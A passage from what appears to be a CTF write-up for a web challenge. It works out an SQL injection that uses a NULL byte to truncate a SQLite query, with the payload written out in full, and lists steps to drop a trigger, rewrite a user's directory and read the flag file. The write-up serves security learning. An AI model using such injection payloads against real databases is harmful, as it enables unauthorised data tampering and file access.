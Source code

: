 ```c++
#include <iostream>
#include <string>

int main() {
    std::string myString = "Hello\x00World!";
    std::cout << myString.c_str() << std::endl;
    return 0;
}
```

If we compile and run this, it'll print `Hello` to the stdout (Standard output)!

Therefore, our theory is correct!

So, if our payload is like this, where `\0` is the NULL byte:

```sql
');UPDATE users SET scrap_dir=char(47) WHERE id=1\0
```

The injected query should be this:

```sql
INSERT INTO logs
VALUES('');UPDATE users SET scrap_dir=char(47) WHERE id=1\0');
SELECT *
FROM logs
WHERE entry = '');UPDATE users SET scrap_dir=char(47) WHERE id=1\0'
LIMIT 1;
```

And the final query in the `sqlite3` binding will be:

```sql
INSERT INTO logs
VALUES('');UPDATE users SET scrap_dir=char(47) WHERE id=1
```

## Exploitation

Armed with above information, we can get the final flag by:
1. Drop trigger `users_immutable_dirs` via SQL injection
2. Update our user `scrap_dir` column value to `/` via SQL injection
3. Login to our user again and get the flag filename in `/files`
4. Read the flag file in `/files/flag<uuid>.txt`

To automate the above steps, I've written the following Python solve script: (Including previous challenge steps)

<details><summary><strong>solve.py</strong></summary></details>

- Setup port forwarding via [ngrok](https://ngrok.com/)

```shell
┌[siunam@~/ctf/ASIS-CTF-Quals-2025/Web/ScrapScrap-II]-[2025/09/09|21:54:41(HKT)]
└> ngrok tcp 5000
[...]
Forwarding                    tcp://0.tcp.ap.ngrok.io:19141 -> localhost:5000                             
[...]
```
